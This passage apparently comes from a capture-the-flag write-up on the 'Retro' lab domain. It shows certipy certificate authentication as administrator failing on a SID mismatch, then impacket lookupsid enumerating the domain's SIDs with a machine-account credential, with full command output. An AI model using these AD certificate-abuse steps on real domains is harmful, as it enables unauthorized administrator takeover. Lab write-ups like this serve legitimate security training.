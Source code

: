 ```
```

Now I’ll use this certificate to auth as administrator:

```

oxdf@hacky$ certipy auth -pfx administrator.pfx -dc-ip 10.129.234.44
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@retro.vl'
[*] Using principal: 'administrator@retro.vl'
[*] Trying to get TGT...
[-] Object SID mismatch between certificate and user 'administrator'
[-] See the wiki for more information

```

This fails too. It says there’s a SID mismatch. I can try the request again, this time giving the SID as well. I’ll get the SID for the administrator user using `lookupsid.py`:

```

oxdf@hacky$ lookupsid.py retro.vl/BANKING$:0xdf0xdf@dc.retro.vl
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Brute forcing SIDs at dc.retro.vl
[*] StringBinding ncacn_np:dc.retro.vl[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-2983547755-698260136-4283918172
498: RETRO\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: RETRO\Administrator (SidTypeUser)
501: RETRO\Guest (SidTypeUser)
502: RETRO\krbtgt (SidTypeUser)
512: RETRO\Domain Admins (SidTypeGroup)
513: RETRO\Domain Users (SidTypeGroup)
514: RETRO\Domain Guests (SidTypeGroup)
515: RETRO\Domain Computers (SidTypeGroup)
516: RETRO\Domain Controllers (SidTypeGroup)
517: RETRO\Cert Publishers (SidTypeAlias)
518: RETRO\Schema Admins (SidTypeGroup)
519: RETRO\Enterprise Admins (SidTypeGroup)
520: RETRO\Group Policy Creator Owners (SidTypeGroup)
521: RETRO\Read-only Domain Controllers (SidTypeGroup)
522: RETRO\Cloneable Domain Controllers (SidTypeGroup)
525: RETRO\Protected Users (SidTypeGroup)
526: RETRO\Key Admins (SidTypeGroup)
527: RETRO\Enterprise Key Admins (SidTypeGroup)
553: RETRO\RAS and IAS Servers (SidTypeAlias)
571: RETRO\Allowed RODC Password Replication Group (SidTypeAlias)
572: RETRO\Denied RODC Password Replication Group (SidTypeAlias)
1000: RETRO\DC$ (SidTypeUser)
1101: RETRO\DnsAdmins (SidTypeAlias)
1102: RETRO\DnsUpdateProxy (SidTypeGroup)
1104: RETRO\trainee (SidTypeUser)
1106: RETRO\BANKING$ (SidTypeUser)
1107: RETRO\jburley (SidTypeUser)
1108: RETRO\HelpDesk (SidTypeGroup)
1109: RETRO\tblack (SidTypeUser)

```
